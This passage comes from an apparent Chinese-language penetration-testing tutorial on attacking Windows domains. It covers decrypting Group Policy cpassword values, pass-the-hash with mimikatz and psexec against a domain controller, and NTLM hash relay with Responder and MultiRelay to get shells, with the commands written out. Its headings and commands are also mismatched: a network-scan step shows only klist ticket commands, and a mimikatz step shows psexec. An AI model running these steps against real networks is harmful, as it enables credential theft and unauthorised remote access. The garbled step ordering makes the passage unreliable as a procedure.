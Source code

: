 ⑤ 执行 powershell 解密 hash。将该 cpassword 密码值放到 powershell 脚本里面然后执行脚本读取得到组策略下发的密码

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmuLkLTI2wlyw1rHsFsHQFRfiaoeH3HicE43VuclDD8vNkxsh3TvWicOrpA/640?wx_fmt=png)  

综上所述：拿到域主机一定要打开访问域策略共享文件夹，可以看到拿到的域主机被下发了哪些策略。通过这些策略可以获取更多相关域的信息

**三、PTH 哈希传递攻击**
================

windows 2012 及之后版本目前无法直接读取明文只能读取主机密文，提权后读取域主机密文。然后通过爆破碰撞等方式获取明文密码，但是不可控制因素比较大。此时也可利用 PTH 哈希传递方式对内网进行攻击。

**PTH**

> pass the hash。获取一台主机的本地管理员组成员账号的口令 NTLM 后，无法破解密码，使用 PTH 方法将管理员账号及 NTLM 注入当前会话作为凭据，利用该凭据可以渗透获取周围的主机的管理权限，如果对方存在相同账号及密码，进行密码碰撞是可以获取到这些主机权限的。

**1\. 利用 mimikatz.exe 读取本地 hash 密文**  

```
dir \\\\WIN-6JM3ECTM2CO.safe-duck.com\\c$
# 调用cmd
psexec.exe \\\\域控IP cmd.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmoCXicicjT0icXsxEPhkOpCH9kN5fHwNibqYVic4ZeEbqn8j5sscP6hZn9gA/640?wx_fmt=png)  

**②利用拿得到的 hash 来连接域内其他目标机器**  

```
vi /usr/share/responder/Responder.conf 
#将SMB和HTTP的值改为off。这样responder就不会获取哈希值，而是Multirelay.py来完成这一任务
```

```
python RunFinger.py -i 192.168.1.0/24
```

**③得到具有用户身份的 cmd shell，执行命令：**

```
responder -I eth0
```

```
python MultiRelay.py -t 192.168.1.11 -u ALL
```

**中继 hash 攻击**  

-----------------

在 hash 无法解密的情况下也可以通过中继 NTLMv2 哈希的方法来获取网络中机器的 shell 访问权限，获取 hash 值可以帮助攻击者获取 shell 访问权限。  

```
参考：https://xz.aliyun.com/t/3560
```

**1\. 网段扫描**  

```
klist             #查看当前拥有的票据
klist purge     #清空票据
```
